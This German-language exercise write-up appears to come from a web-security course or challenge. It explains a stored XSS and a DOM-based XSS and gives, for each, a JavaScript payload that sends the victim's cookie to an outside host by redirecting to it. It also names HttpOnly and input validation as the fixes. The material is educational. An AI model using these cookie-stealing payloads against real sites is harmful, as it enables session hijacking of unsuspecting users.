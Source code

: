 # Execise One

## Web Client

### XSS: Stored 1

Der Inhalt im Eingabefeld wurde nicht validiert, wodurch es möglich war, HTML-Code einzuschleusen, der vom Browser als solcher interpretiert wurde. Dadurch konnte das `<script>`-Tag verwendet werden, um JavaScript-Code einzuschleusen, der den Nutzer auf eine andere Webseite weiterleitete. Vor der Weiterleitung wurde der aktuelle Cookie mit JavaScript ausgelesen – ein Vorgang, der durch das Setzen des `HttpOnly`-Parameters hätte verhindert werden können. Der Cookie wurde dann als Suchparameter `?cookie` an die URL angehängt. Die Zielseite verfolgte den Traffic mit Matomo, wodurch es relativ einfach war, den Suchparameter auszulesen.

![alt text](./1_XSS_Stored_1/xss-stored-1-screenshot.png)

Dieser Code wurde genutzt, um die XSS-Attacke auszulösen:

```html
<script>window.location="https://cdn.mogler.dev/?cookie="+document.cookie;</script>
```

### XSS: DOM Based Introduction

Auf dieser Webseite wurde der Nutzer aufgefordert, eine Nummer einzugeben, jedoch wurde nicht überprüft, ob der eingegebene Inhalt tatsächlich eine Zahl war. Dadurch war es möglich, beliebige Strings einzugeben, die später als Suchparameter an die URL angehängt wurden. Der Suchparameter `?number` wurde offensichtlich vom Backend ausgelesen und direkt in den JavaScript-Code eingefügt. Dadurch war es möglich, auch JavaScript-Code über diesen Parameter einzuschleusen. Um dies zu erreichen, musste der String mit einem `';` beendet und anschließend mit einem normalen `'` fortgesetzt werden, damit der Rest des Codes korrekt interpretiert wird, ohne einen Fehler zu verursachen.

Zusätzlich gab es eine Seite, auf der man den Betreiber kontaktieren konnte, indem man ihm die URL seiner Seite schickte. Mit diesem Tool konnte man dem Betreiber eine manipulierte URL senden, die den schadhaften Code enthielt.

```plain
.../?number='; window.location="https://cdn.mogler.dev/?cookie="+document.cookie;'
```

Der Schadcode nutzt die gleiche Technik wie zuvor, indem er den Browser des Nutzers auf eine andere Seite weiterleitet und dabei den ausgelesenen Cookie überträgt. Dies hätte verhindert werden können, wenn das Backend die Eingaben auf ihre Gültigkeit als Zahl geprüft und den Cookie mit dem `HttpOnly`-Flag versehen hätte.

![alt text](./2_XSS_DOM_Based_Introduction/xss-dom-2-screenshot.png)
